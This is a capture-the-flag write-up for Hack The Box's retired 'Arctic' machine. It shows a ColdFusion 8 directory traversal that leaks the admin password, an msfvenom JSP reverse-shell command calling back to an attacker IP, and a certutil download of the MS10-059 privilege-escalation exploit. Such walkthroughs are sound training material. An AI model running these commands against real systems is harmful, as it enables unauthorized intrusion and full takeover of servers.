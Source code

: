 ```yaml
---
title: Arctic Hackthebox Writeup
date: 2020-12-22 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [windows,coldfusion,coldfusion8,directory traversal,jsp shell,java,msfvenom,windows exploit suggester]     # TAG names should always be lowercase
image: /assets/img/arctic-hackthebox/arctic-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Access:~$


Column | Details
------------ | -------------
Name | Arctic
IP | 10.10.10.11
Points | 20
Os | Windows
Difficult | Easy
Creator | [ch4p](https://www.hackthebox.eu/home/users/profile/1)
Out on | 22nd March 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* Exploiting `Coldfusion8` for *directory traversal* and getting the credentials to login as **Admin**.
* Loging into the dashboard and uploading a `jsp` shell to get a reverse connection back using *Scheduled tasks* functionality.
* Escalating `Privileges` by using **Local windows exploit suggester**, which gave `MS10-059.exe` as one of the recommendations.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/arctic-hackthebox/nmap-scan-1.png)

Basically `3 Ports` are open i.e. `135,8500,49154`. I found this about port *8500* on the internet:

___
![](/assets/img/arctic-hackthebox/port-8500-cold-fusion-2-tcp.png)

It runs `Adobe Coldfusion` on tcp port.

Accessing `port 8500`, I found this:

___
![](/assets/img/arctic-hackthebox/accessing-port-8500-3.png)

Exploring `/CFIDE` directory

___
![](/assets/img/arctic-hackthebox/CFIDE-directory-port-8500-access-4.png)

We finally got a admin page on **http://10.10.10.11:8500/CFIDE/administrator/enter.cfm**

___
![](/assets/img/arctic-hackthebox/admin-page-access-5.png)

Searching for some vulnerabilites on `Coldfusion8`, I found a [directory traversal vulnerability](https://www.exploit-db.com/exploits/14641)

___
![](/assets/img/arctic-hackthebox/cold-fusion-8-exploitdb-6.png)

Running the above exploit as explained, I got the `password hash` for the administrator.

___
![](/assets/img/arctic-hackthebox/got-password-for-traversal-8.png)

Running it on an online decrypter, I got the password as `happyday`.

___
![](/assets/img/arctic-hackthebox/we-got-this-encrypted-value-9.png)

I googled a bit and found that `Scheduled tasks` can be inititated from the **coldfusion8** dashboard.

___
![](/assets/img/arctic-hackthebox/scheduled-tasks-creating-a-new-task-10.png)

As it shows *Java and JVM*, so I thought to upload a `jsp shell`.

Creating payload using `msfvenom`.

**Command** : *msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f raw > reverse.jsp*

___
![](/assets/img/arctic-hackthebox/creating-msfvenom-payload-23.png)

Hosting it on my machine using `Python server`.

**Hosting**: *python3 -m http.server 8081*

Using URL as `http://10.10.X.X:8081/reverse.jsp` --> *To download it on the windows machine.*

Saving the **Output file as** : `C:\ColdFusion8\wwwroot\CFIDE\shell.jsp`

Make sure to fill the **User Name** and **Password** field while scheduling the task.

*User Name:* `admin` *Password:* `happyday`

___
![](/assets/img/arctic-hackthebox/shell-page-new-24.png)

Now running the `Scheduled task`.

___
![](/assets/img/arctic-hackthebox/running-scheduled-task-25.png)

Accessing the shell on `http://10.10.10.11:8500/CFIDE/shell.jsp` and listeing on the specified port, we got `User shell`.

___
![](/assets/img/arctic-hackthebox/got-shell-26.png)

Let's gather `systeminfo` for Privilege Escalation.

___
![](/assets/img/arctic-hackthebox/copy-system-info-27.png)

Feeding the above information to `windows exploit suggester` which I had downloaded on my machine.

Download link : [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

___
![](/assets/img/arctic-hackthebox/windows-exploit-suggester-28.png)

Using `MS10-059.exe` to escalate privileges.

[Download Link](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)

Sending the executable to windows machine using `certutil` command.

**Command**: `certutil -urlcache -split -f http://10.10.X.X:8081/MS10-059.exe priv.exe`

___
![](/assets/img/arctic-hackthebox/ms-10-059-exe-30.png)

Running the `exploit`, and we got `Root`.

___
![](/assets/img/arctic-hackthebox/got-root-31.png)
